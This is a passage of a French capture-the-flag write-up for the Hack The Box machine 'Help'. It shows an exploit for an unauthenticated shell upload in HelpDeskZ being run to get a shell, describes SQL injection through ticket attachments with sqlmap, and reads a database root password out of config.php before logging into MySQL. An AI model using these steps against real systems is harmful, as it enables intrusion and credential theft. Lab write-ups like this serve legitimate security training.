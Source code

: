 ```bash
b800.....6650

----------------------------------------------------------------

python2 final2.py http://help.htb/support/uploads/tickets/ s2.php
HelpDesk v1.0.2 - Unauthenticated shell upload
1756161392
```
On obtient finalement un shell en tant que l'utilisateur `help`.

### Second File Upload / SQL Injection CVE
Une deuxième exploitation était possible. Il fallait se connecter avec les credentials trouvés dans **graphql** sur la plateforme Helpdeskz et poster un ticket avec une pièce-jointe. Il était alors possible ensuite de faire des requêtes vers cette pièce jointe en faisant une injection SQL dans l'url.

En sauvegardant la requête à l'aide Burp, puis en utilisant **sqlmap**, il n'est pas trop dur de l'exploiter. J'ai tenté d'utiliser une exploit déjà écrite, mais ça n'a pas fonctionné. A la fin, vous pouvez voir comment l'exploiter dans la section **Bonus**.

### mysql : staff table
En cherchant dans les fichiers de site web, on trouve un dossier includes avec un fichier config.php contenant les credentials pour se connecter à une base de donnée SQL. En cherchant dans la base de données on découvre une base de donnée support avec une table staff contenant un user "admin" et un hachage :
```bash
help@help:/var/www$ cd html
help@help:/var/www/html$ ls
index.html  support
help@help:/var/www/html$ cd support
help@help:/var/www/html/support$ ls
LICENSE.txt    captcha.php  facebookOAuth  images     js           views
README.md      controllers  favicon.ico    includes   readme.html
UPGRADING.txt  css          googleOAuth    index.php  uploads
help@help:/var/www/html/support$ cd includes/
help@help:/var/www/html/support/includes$ ls
PHPMailer      classes        helpdesk.inc.php  pipe.php
Twig           config.php     index.php         staff.inc.php
bootstrap.php  functions.php  language          support.sql
captcha.ttf    global.php     parser            timezone.inc.php
help@help:/var/www/html/support/includes$ cat config.php 
<?php
	$config['Database']['dbname'] = 'support';
	$config['Database']['tableprefix'] = '';
	$config['Database']['servername'] = 'localhost';
	$config['Database']['username'] = 'root';
	$config['Database']['password'] = 'helpme';
	$config['Database']['type'] = 'mysqli';
	?>
```
Connexion à la base de donnée `mysql` en utilisant les credentials trouvés précédemment :
```bash
help@help:/var/www/html/support/includes$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 785
Server version: 5.7.24-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
```